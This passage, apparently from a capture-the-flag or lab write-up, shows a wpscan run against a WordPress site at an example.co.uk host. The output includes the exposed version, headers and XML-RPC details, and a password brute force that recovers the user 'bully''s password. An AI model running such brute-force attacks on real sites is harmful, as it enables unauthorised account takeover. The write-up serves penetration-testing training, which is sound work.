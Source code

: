 # Wordsmith

So now we will try again with our custom wordlist: I've edited it for brevity in reading this article:

```
knightmare@kali:[~/hack/web/wordpress/wpscan]$ ./wpscan.rb -U bully -w ~/hack/passwords/minotaur_dict2.txt -u http://minotaur.example.co.uk/bull
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[+] URL: http://minotaur.example.co.uk/bull/
[+] Started: Wed Apr 13 15:53:47 2016

[!] The WordPress 'http://minotaur.example.co.uk/bull/readme.html' file exists exposing a version number
[+] Interesting header: SERVER: Apache/2.4.7 (Ubuntu)
[+] Interesting header: X-POWERED-BY: PHP/5.5.9-1ubuntu4.6
[+] XML-RPC Interface available under: http://minotaur.example.co.uk/bull/xmlrpc.php
[!] Upload directory has directory listing enabled: http://minotaur.example.co.uk/bull/wp-content/uploads/
{+] <<snip>>
[+] Enumerating plugins from passive detection...
[+] No plugins found
[+] Starting the password brute forcer
  Brute Forcing 'bully' Time: 00:01:37 <==================================== > (5781 / 5785) 99.93%  ETA: 00:00:00

  +----+-------+------+----------------+
  | Id | Login | Name | Password       |
  +----+-------+------+----------------+
  |    | bully |      | Bighornedbulls |
  +----+-------+------+----------------+

[+] Finished: Wed Apr 13 15:55:28 2016
[+] Requests Done: 5831
[+] Memory used: 32.254 MB
[+] Elapsed time: 00:01:41
```
